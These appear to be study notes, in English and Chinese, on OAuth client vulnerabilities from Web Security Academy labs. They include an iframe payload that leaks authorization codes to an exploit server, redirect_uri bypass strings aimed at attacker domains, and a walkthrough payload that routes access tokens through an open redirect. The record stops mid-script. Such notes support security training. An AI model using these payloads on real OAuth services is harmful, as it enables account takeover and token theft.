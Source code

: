 ## Vulnerabilities in the OAuth client application

### Improper implementation of the implicit grant type

you might be able to change the info from Oauth server after token validation

### Flawed CSRF protection

Therefore,  if you notice that the authorization request does not send a state parameter, this is extremely     interesting from an attacker's perspective

- （没有state防csrf）登陆后绑定账号，抓包并丢掉GET  /oauth-linking?code=[...] 包，复制url并发送给victim，诱使点击，即可用自己的账号绑定victim的

## Leaking authorization codes and access tokens

```html
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

类似这样的东西可以诱使受害者向您发送代码或令牌，以便您可以使用它们以受害者的身份登录

更安全的授权服务器在交换代码时也**需要发送`redirect_uri`参数**

### Flawed redirect_uri validation

客户端应用程序在向OAuth服务注册时，最好提供其真实回调**URI**的**白名单**

但是，仍然有一些方法可以绕过此验证。（可能只验证部分内容，如开头等）

```
like：  https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/
or https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
or localhost.evil-user.net.
```

### Stealing codes and access tokens via a proxy page

如果无法成功提交外部域作为 `redirect_uri`，则可以始终尝试指向白名单域上的任何其他页面。（或目录遍历）

like: 

[https://client-app.com/oauth/callback/../../example/path](https://client-app.com/example/path)

May be interpreted on the back-end as:

https://client-app.com/example/path

为此目的，最有用的漏洞之一是`open redirect`。您可以将其用作代理，将受害者及其代码或令牌转发到攻击者控制的域，您可以在该域中托管任何恶意脚本。

```
lab1：
		a. Notice that the blog website makes an API call to the userinfo endpoint at /me and then uses the data it fetches to log the user in
		b. 尝试绕过redirect_uri白名单，如目录穿越
		如：https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
		c. 尝试其他页面 GET /post/next?path=/post?postId=5 可以是任意页面，包括exploit server，
		d. 找到攻击点，尝试构造payload
		https://ac0d1f431f5aeee180e301eb024700f5.web-security-academy.net/auth?client_id=j93y4jw6c8idaldj4fq0u&redirect_uri=https://acd11f4e1f1fee8a80ef015700530030.web-security-academy.net/oauth-callback/../post/next?path=https://ac801ff11fceeefe801f01b001df0038.web-security-academy.net/exploit&response_type=token&nonce=-188102786&scope=openid%20profile%20email
		redirect_uri 指向exploit server
		e. 在exploit server 构造payload 
		<script>
		  if (!document.location.hash) {
```
